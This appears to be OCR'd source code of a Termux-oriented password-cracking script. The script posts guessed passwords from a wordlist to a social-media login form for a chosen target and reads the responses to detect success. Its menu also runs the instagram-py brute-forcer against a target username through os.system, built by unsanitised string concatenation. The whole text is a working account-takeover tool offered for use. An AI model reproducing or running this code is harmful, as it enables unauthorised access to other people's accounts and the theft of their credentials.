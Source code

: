 	def function(email,passw,i):
		global payload,cookie
		if i%10==1:
			payload,cookie=create_form()
			payload['email']=email
		payload['pass']=passw
		r=requests.post(post_url,data=payload,cookies=cookie,headers=headers)
		if 'Find Friends' in r.text or 'security code' in r.text or 'Two-factor authentication' in r.text:
			open('temp','w').write(str(r.content))
			print('\npassword is : ',passw)
			return True
		return False
	
	file=open(passlist,'r')
	
	print("\nTargeted ID :",usr)
	print("\033[1;91m[\033[1;97m*\033[1;91m]\033[1;92mTrying Passwords from your password list ..." , '\033[1;91m', '\n' )
	
	i=0
	while file:
		passw=file.readline().strip()
		i+=1
		if len(passw) < 6:
			continue
		print(str(i) +" : ",passw)
		if function(usr,passw,i):
			break



# main script start

while True:
	os.system('clear')
	print(banr)
	menu = input(main_menu)
	if menu == '01' or menu == '1':
		print('\n\033[1;91m[\033[1;97m#\033[1;91m]\033[1;92m Run tor in another session of termux')
		sleep(1)
		while True:
			usr = input('\n\033[1;91m[\033[1;97m?\033[1;91m]\033[1;92m Target username:\033[1;97m ')
			if usr == '':
				print('\n\033[1;91m[\033[1;97m!\033[1;91m]\033[1;92m No username detected\n')
			else:
				break
			
		while True:
			pas = input(passs)
			if pas == '01' or pas == '1':
				print()
				os.system("instagram-py --username " + usr + " --password-list .pass.txt")
				break
			elif pas == '02' or pas == '2':
				print()
				passlist = input('\033[1;91m[\033[1;97m?\033[1;91m]\033[1;92m Password list path: \033[1;97m')
				os.system("instagram-py --username " + usr + " --password-list " + passlist)
				break
			elif pas == '3' or pas == '03':
				break
			elif pas == '0' or pas == '00':
				exit()
				